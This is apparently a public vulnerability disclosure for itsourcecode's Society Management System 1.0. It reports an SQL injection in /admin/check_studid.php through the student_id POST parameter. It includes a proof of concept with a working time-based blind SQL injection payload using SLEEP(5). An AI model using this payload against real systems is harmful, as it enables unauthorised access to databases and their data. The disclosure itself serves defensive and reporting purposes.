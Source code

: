 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

After logging into the backend, administrators can query student IDs on the /admin/transaction.php page, but the query interface /admin/check_studid.php has an SQL injection vulnerability.
<img width="1097" alt="image" src="https://github.com/user-attachments/assets/24f54170-e4a3-4dd7-a6a4-3eeddec7ba3a">
<img width="1166" alt="image" src="https://github.com/user-attachments/assets/6fc5c36b-cec6-49fc-97b7-8e471276df2b">


# Poc
```
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=21123123' AND (SELECT 1980 FROM (SELECT(SLEEP(5)))buvY) AND 'zeud'='zeud
```
